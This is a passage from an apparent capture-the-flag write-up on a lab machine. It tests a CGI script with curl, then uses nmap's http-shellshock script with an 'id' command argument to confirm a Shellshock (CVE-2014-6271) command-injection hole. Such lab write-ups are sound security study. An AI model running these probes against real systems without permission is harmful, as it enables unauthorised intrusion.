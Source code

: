 Let's test this with curl:

```
└─$ curl http://10.10.10.56/cgi-bin/user.sh                                                 
Content-Type: text/plain

Just an uptime test script

 12:59:43 up  1:23,  0 users,  load average: 0.84, 1.23, 1.02

```

Since this is a shell script, we should check for shellshock, which is a remote command execution vulnerability in bash.

{% embed url="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" %}

{% embed url="https://www.exploit-db.com/docs/48112" %}

We can also test this with a nmap script as follows:

```
└─$ sudo nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=id -p 80 10.10.10.56
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-24 13:28 EST
Nmap scan report for 10.10.10.56
Host is up (0.013s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
|   </body></html>
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10

Nmap done: 1 IP address (1 host up) scanned in 7.26 seconds

```
